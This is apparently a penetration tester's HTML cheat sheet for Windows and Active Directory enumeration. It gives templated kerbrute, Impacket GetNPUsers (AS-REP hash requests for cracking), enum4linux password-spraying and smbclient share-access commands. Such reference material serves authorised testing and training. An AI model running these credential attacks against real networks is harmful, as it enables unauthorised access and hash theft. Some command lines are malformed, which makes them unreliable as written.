 <ul>
  <h3>Windows Enumeration</h3>
  <ul><h4> Passive Enumeration </h4></ul>
  <ul><h3>Wireshark</h3></ul>
  <p>Use wireshark to discover NTLM protocols, LLMNR, What systems are being used for DNS servers by clients</p>
  <ul><h3>Alternatives</h3></ul>
  <li> TCPDump </li>
  <li> TShark </li>
  
  <ul><h3>User Enumeration</h3></ul>
  <p>kerbrute userenum $USERLIST -d $DOMAIN --dc $DCIP|$DCDNSNAME </p>
  <p>kerbrute userenum $USERLIST -d $DOMAIN --dc $DCIP|$DCDNSNAME --hash-file $FILESTORINGDISCOVEREDHASHES </p>
  
  <ul>Impacket</ul>
  <p>python impacket/examples/GetNPUsers.py -request -format hashcat -dc-ip $DCIPADDRESS -usersfile $USERSFILE -no-pass </p>
  <p>python impacket/examples/GetNPUsers.py -request -format john -dc-ip $DCIPADDRESS -usersfile $USERSFILE -no-pass </p>
  <p>python impacket/examples/GetNPUsers.py -request -format hashcat -dc-ip $DCIPADDRESS -usersfile -hashes $LMHASH:$NTHASH </p>
  
  <ul><h3>enum4linux</h3></ul>
  <br />
  <p> enum4linux -a $IP </p>
  <p> enum4linux -r $IP </p>
  <p> enum4linux -R <Range> $IP </p>
  <p> enum4linux -k $USERNAME </p>
  <h4> Password spraying with enum4linux </h4>
  <p> enum4linux -u $USERLIST -p $PASSLIST $IP|$IPRange </p>
  
  <ul> SMBClient </ul>
  <p> *** NOTE: You may have to edit your smb configuration to use smbclient on older SMB versions </p>
  <p> List Shares (No Pass): smbclient -L -N ////$IP// </p>
  <p> List Shares: smbclient -L ////$IP// </p>
  <p> Connect as user: smbclient -U $Username ////$IP// </p>
  <p> Connect as user with pass (list shares): smbclient -U $USERNAME -P $PASSWORD -L ////$IP// </p>
  <p> Connect as user with pass: smbclient -U $USERNAME -P $PASSWORD ////$IP//SHARE</p>
  
  <p><h4> Questions to Ask </h4></p>
  <ul> Can I upload files? </ul>
  <ul> Can I download files? </ul>
  <ul> What permissions are available? </ul>
  <ul> Are permissions squashed? </ul>
  <ul> What AD permissions do I have? </ul>
  <ul> Do I belong to any default groups in AD? What are their default permissions? </ul>
  
  <ul><h4>Resources</h4></ul>
  <p>https://steflan-security.com/smb-enumeration-guide/</p>
</ul>
